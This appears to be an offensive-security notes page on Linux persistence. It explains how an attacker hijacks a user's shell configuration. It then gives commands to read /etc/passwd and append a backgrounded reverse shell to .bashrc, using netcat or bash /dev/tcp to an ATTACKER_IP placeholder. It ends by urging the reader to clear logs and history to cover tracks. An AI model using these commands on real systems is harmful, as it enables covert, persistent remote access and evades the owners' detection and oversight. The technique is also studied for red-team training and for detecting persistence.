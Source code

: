 
## General
In Unix-like operating systems, the shell is the command-line interface that users can use to interact with the system. When a user logs in, their default shell is started and they are presented with a prompt where they can enter commands. Each user on the system has a default shell that is specified in the system's configuration, and the user can choose to use a different shell if they prefer.

An attacker who has gained access to a system can modify the shell configuration of a user in order to maintain persistence on the system. This can be done by changing the user's default shell to a shell that has been modified by the attacker in some way. For example, the attacker could modify the shell so that it automatically runs a script or command every time the user logs in, or so that it hides the presence of the attacker's files or processes on the system.

By modifying the shell configuration in this way, the attacker can maintain persistence on the system even after a reboot or after they have logged out. This can allow the attacker to continue to perform actions or gather sensitive data over an extended period of time without being detected.


## Commands
Find the Default Shell of users
```
cat etc/passwd    ---> check for /bin/bash 
```
If users has something else then bin/bash (ex: bin/sh) That mean the user will have a /.bashrc in the home folder of the user (bashrc allow you to modify the bash shell at its launch)

Add Reverse Shell
```
# Edit the code
nano .bashrc

# Add a bash reverse shell at the end of the code
nc -e /bin/bash Attacker_IP PORT 2>/dev/null &
or
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1 &
```
- & Put the command in background



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===